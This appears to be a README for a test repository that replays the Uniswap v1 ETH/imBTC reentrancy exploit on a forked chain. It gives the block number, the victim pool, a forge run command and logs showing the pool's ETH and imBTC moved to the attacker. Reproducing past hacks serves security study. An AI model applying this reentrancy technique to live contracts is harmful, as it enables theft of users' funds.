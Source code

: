 # Uniswap imBTC reentrant hack testing.

## Block Number

9488451

## Victim

uniswap v1 `ETH/imBTC(ERC777)` exchange pool

## Run

```bash
forge script script/Script.s.sol

[⠔] Compiling...
No files changed, compilation skipped
Script ran successfully.
Gas used: 1524702

== Logs ==
  before attacker ETH: 21000000000000000000000
  before attacker imBTC: 0
  before pool ETH: 718529642351924552227
  before pool imBTC: 1959698094
  ----attack----
  after attacker ETH: 21718527331757032010044
  after attacker imBTC: 1940237338
  after pool ETH: 2310594892542183
  after pool imBTC: 19460756
```
